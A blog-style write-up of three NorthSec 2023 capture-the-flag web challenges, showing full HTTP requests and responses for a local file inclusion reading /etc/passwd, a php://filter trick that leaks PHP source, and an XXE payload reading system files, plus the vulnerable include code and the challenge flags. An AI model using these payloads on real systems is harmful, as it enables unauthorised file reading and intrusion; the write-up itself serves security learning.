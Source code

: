```yaml
---
layout: post
title: NorthSec 2023 Writeup - Hackademy - Inclusion
date: 2023-05-22
type: post
tags:
- Writeup
- Hacking
- NorthSec
- CTF
permalink: /2023/05/NorthSec/HackademyInclusion
img: 2023/05/NorthSec/HackademyInclusion/Description.png
---
```


The Hackademy contains web challenges for beginners. This year, I realized I had writeups for all of them except the Inclusion challenges.

```
Unauthorized training module: http://hackademy.ctf
```

## Inclusion 101

In the first Inclusion challenge, you get a web page with a conversation between a trainer and an apprentice.

![Inclusion 101](/assets/images/2023/05/NorthSec/HackademyInclusion/Inclusion101.png "Inclusion 101")

The URL for the challenge contains the parameter `?page=welcome.php`. I changed the parameter to try and read `/etc/passwd`.

```http
GET /?page=/etc/passwd HTTP/1.1
Host: chal2.hackademy.ctf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

It worked.

![Inclusion 101 Done](/assets/images/2023/05/NorthSec/HackademyInclusion/Inclusion101Done.png "Inclusion 101 Done")

```http
HTTP/1.1 200 OK
Date: Sat, 20 May 2023 18:49:39 GMT
Server: Apache/2.4.52 (Ubuntu)
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 1847

<!DOCTYPE html>
<html>

<head>
    <title>NorthSec Hackademy</title>
    <script type="text/javascript" src="https://code.jquery.com/jquery-3.5.1.js"></script>
    <script type="text/javascript" src="js/bootstrap.bundle.min.js"></script>
    <link rel="stylesheet" type="text/css" href="css/bootstrap.min.css">
</head>

<body>
    <div class="container">
        root:x:0:0:root:/root:/bin/bash
        daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
        bin:x:2:2:bin:/bin:/usr/sbin/nologin
        sys:x:3:3:sys:/dev:/usr/sbin/nologin
        sync:x:4:65534:sync:/bin:/bin/sync
        games:x:5:60:games:/usr/games:/usr/sbin/nologin
        man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
        lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
        mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
        news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
        uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
        proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
        www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
        backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
        list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
        irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
        gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
        nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
        systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
        systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
        messagebus:x:102:105::/nonexistent:/usr/sbin/nologin
        systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
        syslog:x:104:111::/home/syslog:/usr/sbin/nologin
        _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
        ubuntu:x:1000:1000::/home/ubuntu:/bin/bash
        trainer:x:1001:1001:Trainer:FLAG-afe2e9b36c2628bc275fc407c23af8f8,,,,:/bin/false:/sbin/nologin
    </div>
</body>

</html>
```

The first flag was in the file in the user information section of the `trainer` user.


## Inclusion 102

For the second flag, I tried to read the source code of the application. I could not just request the PHP file, it would have been executed by `include` instead of returning it. I used PHP filters to base64 encode the PHP code and return it.

```http
GET /?page=php://filter/convert.base64-encode/resource=index.php HTTP/1.1
Host: chal2.hackademy.ctf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

![Inclusion 102 Done](/assets/images/2023/05/NorthSec/HackademyInclusion/Inclusion102.png "Inclusion 102 Done")

I took the returned base64 and decoded it.

```bash
$ echo -n PD9waHAKICAgICNGTEFHLTA3NDQ3YzZiY2VkNDZjNj... | base64 -d

<?php
    #FLAG-07447c6bced46c678a6c9de7d31f6caf (2/2)
    if(!isset($_GET["page"])){
        header("Location: ?page=welcome.php");
        die();
    }

    $page = $_GET["page"];
    if(strpos($_GET["page"], "index.php") !== false && !preg_match("/.*=([.\/]*)?index.php$/", $_GET["page"])){
        header("Location: ?page=welcome.php");
        die();
    }
?>
<!DOCTYPE html>
<html>
    <head>
        <title>NorthSec Hackademy</title>
        <script type="text/javascript" src="https://code.jquery.com/jquery-3.5.1.js"></script>
        <script type="text/javascript" src="js/bootstrap.bundle.min.js"></script>
        <link rel="stylesheet" type="text/css" href="css/bootstrap.min.css">
    </head>
    <body>
        <div class="container">
            <?php include($page); ?>
        </div>
    </body>
</html>
```

The second flag was in a comment at the beginning of the file.

## Inclusion 103

For the third inclusion challenge, it showed the same conversation as before. But without the URL parameter.

![Inclusion 103](/assets/images/2023/05/NorthSec/HackademyInclusion/XXE.png "Inclusion 103")

I used [Caido](https://caido.io/) to look at the requests made by the site.

```http
POST /welcome.php HTTP/1.1
Host: chal3.hackademy.ctf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/xml, text/xml, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://chal3.hackademy.ctf
Connection: keep-alive
Referer: http://chal3.hackademy.ctf/

<function><getConversation>true</getConversation></function>
```

The site was posting some XML, this screams [XXE](https://portswigger.net/web-security/xxe). I tried to read `/etc/passwd` again.

```http
HTTP/1.1 200 OK
Date: Sat, 20 May 2023 18:53:11 GMT
Server: Apache/2.4.52 (Ubuntu)
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 353

<?xml version="1.0"?>
<result>
    <getConversation>true</getConversation><data>&lt;hr&gt;Trainer: "Welcome to our hackademy. How may I help you?"&lt;hr&gt;Apprentice: "You can start by telling me your name."&lt;hr&gt;Trainer: "I'm not telling you my name. If you want my name, find it! I can only say that it starts with 'FLAG-'."&lt;hr&gt;</data>
</result>
```

It contained the last flag.

```http
POST /welcome.php HTTP/1.1
Host: chal3.hackademy.ctf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/xml, text/xml, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
X-Requested-With: XMLHttpRequest
Origin: http://chal3.hackademy.ctf
Connection: keep-alive
Referer: http://chal3.hackademy.ctf/
Content-Length: 162

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<function><getConversation>&xxe;</getConversation></function>

HTTP/1.1 200 OK
Date: Sat, 20 May 2023 18:55:11 GMT
Server: Apache/2.4.52 (Ubuntu)
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 1765

<?xml version="1.0"?>
<result>
    <getConversation>root:x:0:0:root:/root:/bin/bash
        daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
        bin:x:2:2:bin:/bin:/usr/sbin/nologin
        sys:x:3:3:sys:/dev:/usr/sbin/nologin
        ...
        ubuntu:x:1000:1000::/home/ubuntu:/bin/bash
        trainer:x:1001:1001:Trainer:FLAG-b1c6dab4c0d216a5b1e83be1313a811a,,,,:/bin/false:/sbin/nologin
    </getConversation><data>&lt;hr&gt;Trainer: "Welcome to our hackademy. How may I help you?"&lt;hr&gt;Apprentice: "You can start by telling me your name."&lt;hr&gt;Trainer: "I'm not telling you my name. If you want my name, find it! I can only say that it starts with 'FLAG-'."&lt;hr&gt;</data>
</result>
```